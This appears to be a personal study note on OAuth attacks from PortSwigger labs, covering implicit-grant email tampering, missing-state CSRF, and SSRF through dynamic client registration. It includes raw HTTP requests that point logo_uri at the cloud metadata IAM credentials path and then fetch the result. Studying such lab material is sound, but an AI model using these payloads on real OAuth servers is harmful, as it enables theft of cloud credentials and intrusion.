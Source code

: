 # Oauth
### Implicit Grant Type
 - Reference: https://portswigger.net/web-security/oauth
 - When logging in, some client application use POST form with login, Server may just accept the request, change `email`? to gain access to another users permission.
 - If there is no `state` parameter during linking, might be able to perform CSRF.

### SSRF via dynamic client registration
 - This had an interesting lab
 - Get the oauth enddpoint and make a request `/.well-known/oauth-authorization-server` `/.well-known/openid-configuration`
 - Get registration endpoint.
 - Register client, "logo_uri" tne internal endpoint.
```
POST /reg HTTP/2
Host: oauth-0a76003e04adbe58804738f202a10051.oauth-server.net
Content-Type: application/json
Content-Length: 194

{
	"redirect_uris":[
	"http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
	],
"logo_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"

}
```
 - Get /client/client_id/logo, sends request to `logo_uri` which will be internal and we get the response.
```
GET /client/kUHvtXsqAdefRAThRCPct/logo HTTP/2
Host: oauth-0a76003e04adbe58804738f202a10051.oauth-server.net
Cookie: _session=ptfZpFjDvblDlXq6kIl7p; _session.legacy=ptfZpFjDvblDlXq6kIl7p
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Sec-Ch-Ua-Platform: ""
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://oauth-0a76003e04adbe58804738f202a10051.oauth-server.net/interaction/UYP38U4d5VT-MmtK7voay
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

```
